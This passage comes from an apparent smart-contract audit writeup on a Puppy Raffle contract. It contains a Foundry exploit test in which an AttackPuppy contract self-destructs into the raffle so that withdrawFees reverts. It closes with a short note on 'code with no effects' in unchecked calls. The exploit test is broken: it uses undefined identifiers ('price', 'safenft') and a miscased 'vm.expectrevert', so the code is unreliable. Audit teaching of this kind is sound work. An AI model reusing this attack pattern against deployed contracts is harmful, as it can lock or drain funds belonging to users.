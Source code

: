 ```
    receive() external payable {
      
    }

}
```
## Test Scenario

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.7.6;

import {Test, console} from "forge-std/Test.sol";
import {PuppyRaffle} from "../src/Puppy.sol";
import {AttackPuppy} from "../src/PuppyExploit.sol";

contract ClaimTest is Test {
    PuppyRaffle public puppyRaffle;
    AttackPuppy public attackPuppy;
    function setUp() public {
        puppyRaffle = new PuppyRaffle("NFT", "NonFungibility", price);
        attackPuppy = new AttackPuppy(address(safenft));
        deal(address(attackPuppy), 1 ether);
        attackPuppy.destroy(address(puppyRaffle));
       
        
    }

    function test_attack() public {
        vm.expectrevert("Can't withdraw fees");
        puppyRaffle.withdrawFees();
        ;
        
    }

    
}

```
## <font color="yellow"> Code With No Effects  <a id="typography"></a></font>


### Description
In Solidity, you can write code that fails to achieve its intended outcome without triggering any compiler warnings. This can result in "dead" code that doesn't execute the desired actions. For instance, if you accidentally omit the trailing parentheses in `msg.sender.call.value(address(this).balance)("");`, the function might proceed without transferring funds to `msg.sender`. It's crucial to avoid such issues by always checking the return value of the `call` to ensure the intended operation is successful.
